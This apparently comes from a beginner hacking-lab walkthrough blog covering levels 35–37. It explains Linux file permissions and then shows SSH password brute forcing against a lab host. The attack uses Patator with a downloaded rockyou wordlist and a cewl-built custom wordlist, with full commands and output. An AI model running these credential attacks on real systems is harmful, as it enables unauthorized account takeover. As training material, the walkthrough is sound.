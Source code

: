 ```yaml
---
layout: post
title:  "The Hax that Rocks the Cradle Brute Force"
date:   2022-08-26 17:19:23 -0500
categories: thehaxthatrocksthecradle
---
```


<br>
# Level 35 - This One's Not About Brute Force!
Ok, so the rest of these levels will involve brute forcing, but this one doesn't. I just didn't want to have a whole separate page for this one. \\(o_O)/
<br>Sekhmet, in all her anger about Mafdet, also found some other account info!

<details>
<summary>Level 35 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Find out how to make a file executable in Linux.
</span>
</details>
<br>
<details>
<summary>Level 35 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Linux doesn't let you run/execute a program unless the file specifically has the permissions set up to do so. Check the permissions with <code>ls -la</code>:
<pre>
sekhmet@thehaxthatrocksthecradle:~$ ls -la runthisthing 
-rw-rw-r-- 1 sekhmet sekhmet 16744 Apr  2  2021 runthisthing
</pre>
<br>
The file permissions are all those letters/symbols at the beginning of the second line, to the left of the number 1. But how do you read all that mess? To fully understand it would require a long explanation, so let's just go with the basics for now and explain it all with some handy color-coding.<br>
<br>
<code>
<span style="color:purple" >-</span>
<span style="color:DarkOrange" >rw-</span>
<span style="color:DarkSlateBlue" >rw-</span>
<span style="color:DeepPink" >r--</span>
 1 
 <span style="color:DarkOrange" >sekhmet </span>
<span style="color:DarkSlateBlue" > sekhmet </span>
 16744 Apr  2  2021 runthisthing</code><br>
<br>
<span style="color:purple" ><code>-</code> - This will typically just be a <code>-</code> if it's a file or a letter <code>d</code> if it's a directory. Ours is a file, we don't need anything else from it here.</span><br>
<span style="color:DarkOrange" ><code>rw-</code> - This indicates that the owner of the file can read it and write to it. A letter means the permission is present, a dash means that permission is not present. The owner in this case is our buddy Sekhmet (the first <code>sekhmet</code> is the owner)</span> <br>
<span style="color:DarkSlateBlue" ><code>rw-</code> - Same thing here, but this is for the owning group. The second <code>sekhmet</code> is the owning group. We can see that the sekhmet group can also read and write to the file</span><br>
<span style="color:DeepPink" ><code>r--</code> - These are the permissions for everyone else. Everyone can read the file, but they can't write to it.</span><br>
<br>
So now what? Well, we want to add <b>execution</b> permissions to the file, which would be represented by an <code>x</code> instead of the <code>-</code> in the third column for each permission set. The easiest way to do that would be:<br>
<code>chmod +x runthisthing</code><br>
<br>
This adds the <code>x</code> to all the permissions for this file. Note that this means everyone can execute this file now! You can get more granular, but we're just going for quick and easy right now.<br>
<br>
Check the permissions after running that and they should be:<br>
<pre>
sekhmet@thehaxthatrocksthecradle:~$ ls -la runthisthing 
-rwxrwxr-x 1 sekhmet sekhmet 16744 Apr  2  2021 runthisthing
</pre>
<br>
Ok, so now you can allegedly execute this file. Right. Let's do that now.<br>
How?<br>
<br>
To run an executable file in the directory you're currently in at the CLI:<br>
<pre>./runthisthing
                                                 >=>                    
                                                 >=>                    
  >==>    >=>   >=>   >==>       >==> >=>  >=> >=>>==> >=>  >=>  >===>  
>>   >=>    >> >=>  >>   >=>   >=>    >=>  >=>   >=>   >=>  >=> >=>     
>>===>>=>    >>     >>===>>=> >=>     >=>  >=>   >=>   >=>  >=>   >==>  
>>         >>  >=>  >>         >=>    >=>  >=>   >=>   >=>  >=>     >=> 
 >====>   >=>   >=>  >====>      >==>   >==>=>    >=>    >==>=> >=> >=> 
                                         
You have executed the program as required
Decode for the password:
ZXhlY3V0aXZlT3JkZXJz
</pre><br>
These people and their encoding!! (╯°□°）╯︵ ┻━┻)<br>
Decode as usual from base64:<br>
<pre>
└─$ hURL -b ZXhlY3V0aXZlT3JkZXJz           

Original string       :: ZXhlY3V0aXZlT3JkZXJz
base64 DEcoded string :: executiveOrders
</pre>

<i>There's a lot more to permissions that I didn't cover - you can certainly find more info online, such as here: <a href="https://linuxhandbook.com/linux-file-permissions/">https://linuxhandbook.com/linux-file-permissions/</a></i>
</span>
</details>
<br>
# Level 36 - This One is About Brute Force! What Does That Mean Anyway?
Let's get into some password attacks!
A short/quick definition of brute forcing an account would be going through a bunch of guesses for the password for the account. There are a few different types. 

A true brute force, or key space brute force is the most ... brutish of them all. For example - we did just that in the earlier examples. Our key space was just 26 letters at first (26 guesses), then 2 digit numbers (100 guesses), then 4 digit numbers. That last one took us up to 10,000 possible guesses (0000-9999). What if we add lowercase letters to that mix?
We'd be up to 1,679,616 guesses. You can see how this starts to get impractical pretty quickly. Enter the dictionary attack!

A dictionary attack uses a list of likely passwords. Where does that list come from? Could be any of a variety of places:
* a breach of a company's database
* a compilation of words from a website the victim frequents
* a list of commonly used passwords
* a list you sat there typing up by hand because ... you were working on your typing skills, maybe?

This type of attack relies on someone using something in your list as their password, so the art of getting a list together is another subject that could make for a book by itself. We will instead take advantage of someone else's work and use a pre-existing list.

<details>
<summary>Level 36 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Download the password list</li>
<li>Find a way to perform a brute force password attack against SSH - hint for the hint, look up how to do it with Patator. Hint for that - honestly, just check out patator's awesome help menu from the command line!</li>
<li>Perform the SSH password attack</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 36 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Download the password list</li>
<ul>
<li><code>wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-15.txt</code><br>
This is a cut down version of a very well known password list. This GitHub repository has a ton of lists for trying to discover/crack all sorts of stuff including usernames, passwords, directories, and more!</li>
</ul>
<li>Find a way to perform a password attack against SSH</li>
<ul>
<li>I'll be using Patator in this case, but there are other applications you could use instead.</li>
<li>If you checked out the tool's help (like I said you should!!) you might have seen something like:
<pre>
└─$ patator --help          
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7
Usage: patator module --help

Available modules:
  + ftp_login     : Brute-force FTP
  + ssh_login     : Brute-force SSH
  + telnet_login  : Brute-force Telnet
... etc
</pre>
Then check out the module specific help:
<pre>
└─$ patator ssh_login --help
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7
Usage: ssh_login <module-options ...> [global-options ...]

Examples:
  ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'

Module options:
  host          : target host
  port          : target port [22]
  user          : usernames to test
  password      : passwords to test
  auth_type     : type of password authentication to use [password|keyboard-interactive|auto]
  keyfile       : file with RSA, DSA or ECDSA private key to test
  persistent    : use persistent connections [1|0] 
</pre>
From the example given and the option descriptions, we can start filling in our environment's info as seen in the next step.
</li>
</ul>
<li>Perform the SSH password attack</li>
<ul>
<li><pre>
└─$ patator ssh_login host=10.0.0.19 user=brutus password=FILE0 0=rockyou-15.txt
21:14:26 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7 at 2022-09-29 21:14 CDT
21:14:26 patator    INFO -                                                                              
21:14:26 patator    INFO - code  size    time | candidate                          |   num | mesg
21:14:26 patator    INFO - -----------------------------------------------------------------------------
21:14:29 patator    INFO - 1     22     3.506 | 123456                             |     1 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.497 | 12345                              |     2 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.506 | 123456789                          |     3 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.502 | iloveyou                           |     5 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.524 | password                           |     4 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.508 | princess                           |     6 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | 1234567                            |     7 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.505 | 12345678                           |     8 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | abc123                             |     9 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | nicole                             |    10 | Authentication failed.
21:14:33 patator    INFO - 1     22     3.496 | daniel                             |    11 | Authentication failed.
</pre>
</li>
<li>I left off the <code>-x ignore:mesg="Authentication failed."</code> in this example just so you could see the process as it tries guessing all the different passwords. You can add that to the end of the command to make the output cleaner. Note that it will look like it's not doing anything for a while if you do that.</li>
<li>...or leave it as is and just scroll through the output a bit to find ...<br>
<pre>
...
21:19:16 patator    INFO - 1     22     3.500 | jessie                             |   215 | Authentication failed.
21:19:16 patator    INFO - 0     30     0.111 | hellokitty                         |   216 | SSH-2.0-OpenSSH_8.9p1 Ubuntu-3
21:19:16 patator    INFO - 1     22     3.495 | jeremy                             |   207 | Authentication failed.
...
</pre>
</li>
<li>The successful login attempt will just show the SSH version on the server in this case.</li>
</ul>
</ul>
</span>
</details>
<br>
# Level 37 - Wordlists are Cool. Kool? Kewl?
Remember how we discussed the fact that wordlists could be pre-made or you could make one of your own?

<details>
<summary>Level 37 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Check the webpage in a browser if possible, just to see what you're working with</li>
<li>Check out <code>cewl</code> as Brutus suggested</li>
<li>Use <code>cewl</code> to generate a list of words 8 characters or longer from the target URL </li>
<li>Perform that SSH password attack like in the last level</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 37 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Check the webpage in a browser if possible, just to see what you're working with</li>
<ul>
<li>Just go to the URL in your browser: http://INSERTIPADDRESSHERE:8000/sombra/playoverwatch.com/en-us/heroes/sombra/index.html</li>
</ul>
<li>Check out <code>cewl</code> online as Brutus suggested</li>
<ul>
<li>This will vary of course, I stumbled upon this guide <a href="https://www.geeksforgeeks.org/cewl-tool-creating-custom-wordlists-tool-in-kali-linux/">here.</a></li>
</ul>
<li>Use <code>cewl</code> to generate a list of words 8 characters or longer from the target URL:
<ul>
<li>
<pre>
└─$ cewl -m 8 http://10.0.0.19:8000/sombra/playoverwatch.com/en-us/heroes/sombra/index.html | tee sombralist.txt
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Overwatch
Warcraft
BATTLETAG
Resurrected
Hearthstone
...
</pre>
<br>
<code>-m 8</code> - tells <code>cewl</code> to only include words of a minimum 8 characters or more<br>
<code> | tee sombralist.txt </code> - outputs the list to a file, in this case sombralist.txt, but also lets us see it on screen to make sure it looks about right<br>
</li>
</ul>
</li>
<li>Perform that SSH password attack like in the last level</li>
<ul>
<li>Use <code>patator</code> to brute force the SSH server again, just swap out the username and the file name you're using. Refer to level 36's full answer for that command.</li>
</ul>
</ul>
</span>
</details>
<br>
